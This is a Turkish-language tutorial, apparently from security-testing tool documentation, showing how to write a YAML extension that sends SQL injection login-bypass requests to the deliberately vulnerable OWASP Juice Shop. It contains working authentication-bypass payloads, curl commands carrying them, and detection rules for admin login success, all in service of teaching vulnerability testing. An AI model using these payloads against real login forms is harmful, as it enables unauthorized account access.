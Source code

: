[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



#   Değişiklik Yapmayan Uzantının Oluşturulması

Bu belgede açıklanan uzantı, içine payload enjekte etmek için gelen temel (baseline) isteği değiştirmeyecektir. Bunun yerine, temel istekte belirtilen ana makineye önceden tanımlı iki test isteği gönderilecektir. Bu test istekleri, hedef uygulama [“OWASP Juice Shop”][link-juice-shop]’un oturum açma formundaki SQLi zafiyetinin istismarına yol açabilecek payload’lar içerir.


##  Hazırlıklar

FAST uzantısını oluşturmadan önce [hedef uygulamanın davranışını araştırmanız][link-app-examination] şiddetle önerilir.


##  Uzantının Oluşturulması

Uzantıyı tanımlayan bir dosya oluşturun (ör. `non-mod-extension.yaml`) ve gerekli bölümlerle doldurun:

1.  [**`meta-info` bölümü**][link-meta-info].

    Uzantının tespit etmeye çalışacağı zafiyetin açıklamasını hazırlayın.
    
    * zafiyet başlığı: `OWASP Juice Shop SQLi (non-mod extension)`
    * zafiyet açıklaması: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * zafiyet türü: SQL enjeksiyonu
    * zafiyet tehdit seviyesi: yüksek
    
    İlgili `meta-info` bölümü aşağıdaki gibi görünmelidir:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **`send` bölümü, [Send aşaması][doc-send-phase]**

    Hedef uygulamadaki SQL enjeksiyonu zafiyetini istismar etmek için, herhangi bir `password` değeriyle birlikte `email` parametre değerinde gönderilmesi gereken iki payload vardır:
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
    
    İkisinin her biri aşağıdakileri içeren iki test isteği hazırlayabilirsiniz:
    
    * yukarıda açıklanan değerlerden birine sahip `email` parametresi ve 
    * rastgele bir değere sahip `password` parametresi.

    Örnek hedef uygulamayı (OWASP Juice Shop) test etmek için bu isteklerden sadece birini kullanmanız yeterlidir.
    
    Ancak, gerçek bir uygulamanın güvenlik testlerini yürütürken birkaç önceden hazırlanmış test isteğinden oluşan bir kümeye sahip olmak faydalı olabilir: uygulamadaki güncellemeler ve iyileştirmeler sayesinde isteklerden biri bir zafiyeti artık istismar edemiyorsa, kullanılan diğer payload’lar nedeniyle zafiyeti hâlâ istismar edebilecek diğer test istekleri mevcut olacaktır.

    Yukarıdaki listedeki ilk payload ile istek aşağıdakine benzer:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    İkinci istek de ilkine benzer görünür:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Bu iki test isteğinin tanımlarını içeren `send` bölümünü ekleyin:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "`Host` başlığı hakkında bir not" 
        Bu zafiyetin istismarını etkilemediği için bu isteklerde `Host` başlığı atlanabilir. Bir FAST düğümü, gelen temel istekten çıkarılan `Host` başlığını otomatik olarak ekleyecektir.
        
        Send aşamasının isteğin başlıklarını nasıl ele aldığını [buradan][link-send-headers] okuyun.

     3.  **`detect` bölümü, [Detect aşaması][doc-detect-phase]**.
    
    Aşağıdaki koşullar, yönetici haklarıyla kullanıcı kimlik doğrulamasının başarılı olduğunu gösterir:
    
    * Yanıt gövdesinde değeri `1` olan alışveriş sepeti tanımlayıcı parametresinin bulunması. Parametre JSON formatındadır ve aşağıdaki gibi görünmelidir:
    
        ```
        "bid":1
        ```
    
    * Yanıt gövdesinde değeri `admin@juice-sh.op` olan kullanıcı e-posta parametresinin bulunması. Parametre JSON formatındadır ve aşağıdaki gibi görünmelidir:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Yukarıda açıklanan koşullara göre saldırının başarılı olup olmadığını kontrol eden `detect` bölümünü ekleyin.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Özel sembollerin kaçışlanması"
    Dizelerdeki özel sembolleri kaçışlamayı unutmayın.

##  Uzantı Dosyası

Artık `non-mod-extension.yaml` dosyası, uzantının çalışması için gereken bölümlerin eksiksiz bir setini içeriyor. Dosya içeriğinin listesi aşağıda gösterilmiştir:

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Uzantının Kullanımı

Oluşturulan ifadenin nasıl kullanılacağı hakkında ayrıntılı bilgi için [bu belgeyi][link-using-extension] okuyun.